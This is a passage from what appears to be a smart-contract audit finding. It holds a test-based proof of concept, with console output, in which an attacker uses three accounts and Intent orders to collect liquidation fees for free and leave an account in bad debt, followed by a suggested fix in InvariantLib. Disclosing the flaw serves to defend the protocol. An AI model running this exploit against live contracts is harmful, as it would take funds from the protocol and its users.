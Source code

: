 ```solidity
    ](userC.address, intent2, DEFAULT_SIGNATURE);

  const WITHDRAW_COLLATERAL = parse6decimal('500')

  dsu.transfer.whenCalledWith(user.address, WITHDRAW_COLLATERAL.mul(1e12)).returns(true)

  await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, -WITHDRAW_COLLATERAL, false)

  oracle.status.returns([ORACLE_VERSION_3, ORACLE_VERSION_4.timestamp])

  await settle(market, user)
  await settle(market, userB)
  await settle(market, userC)

  var loc = await market.locals(user.address);
  console.log("user collateral: " + loc.collateral);
  var pos = await market.positions(user.address);
  console.log("user pos: long = " + pos.long);

  var loc = await market.locals(userC.address);
  console.log("userC collateral: " + loc.collateral);
  var pos = await market.positions(userC.address);
  console.log("userC pos: short = " + pos.short);

  var loc = await market.locals(userB.address);
  console.log("userB collateral: " + loc.collateral);

  var loc = await market.locals(liquidator.address);
  console.log("liquidator claimable: " + loc.claimable);

})
```

Console output:
```solidity
user collateral: -221400
user pos: long = 0
userC collateral: 500000000
userC pos: short = 0
userB collateral: 500000000
liquidator claimable: 44280
```

Demonstrates how Attacker can use 3 accounts to generate claimable fees for free, creating abandoned bad debt account in the process.

### Mitigation
The issue comes from the fact that position change is guaranteed for Intent orders, but fees are pending until price is commited and are not included in margin/maintenence check calculations. Possible mitigation is to subtract fees pending from the Intent orders (Guarantee) from the collateral in `InvariantLib` when doing margin/maintenence check.
